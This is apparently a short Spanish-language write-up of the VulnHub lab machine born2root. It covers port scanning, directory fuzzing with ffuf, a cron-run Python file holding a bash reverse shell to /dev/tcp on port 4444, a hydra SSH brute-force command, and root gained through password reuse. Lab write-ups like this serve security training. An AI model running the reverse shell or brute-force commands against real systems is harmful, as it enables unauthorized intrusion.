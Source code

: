 ```yaml
---
layout: post
title: born2root VulnHub
tags: [pspy,hydra]
description: "born2root VulnHub"
---
```


## Puertos abiertos

```
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
|   100000  2,3,4        111/tcp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100024  1          44532/tcp   status
|_  100024  1          60170/tcp6  status
44532/tcp open  status  1 (RPC #100024)
```


## Servicio web (80)

### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.179.49/FUZZ" -c -t 200
[...]                                                                                               
                        [Status: 200, Size: 5651, Words: 1392, Lines: 284]
.htpasswd               [Status: 403, Size: 298, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 298, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 293, Words: 22, Lines: 12]
files                   [Status: 301, Size: 316, Words: 20, Lines: 10]
icons                   [Status: 301, Size: 316, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 5651, Words: 1392, Lines: 284]
manual                  [Status: 301, Size: 317, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 57, Words: 4, Lines: 4]
server-status           [Status: 403, Size: 302, Words: 22, Lines: 12]
```

Path: `http://192.168.179.49/icons/`

![icon](/assets/imgs/born2root/icon.png)

### Usuario jimmy (tarea cron)

```
martin@debian:/tmp$ cat /tmp/sekurity.py 
#!/usr/bin/python
import os
os.system("bash -c 'bash -i >& /dev/tcp/192.168.49.179/4444 0>&1'")
```

![jimmy](/assets/imgs/born2root/icon.png)


## Usuario hady (fuerza bruta ssh)

```
hydra -l hadi -P hadi.txt 192.168.179.49 ssh -f -V -t 20
```

![hydra](/assets/imgs/born2root/hydra.png)

## Escalada de privilegios

### Reutilización de contraseñas

```
hadi@debian:~$ su
Password: 
root@debian:/home/hadi# id
uid=0(root) gid=0(root) groups=0(root)
```
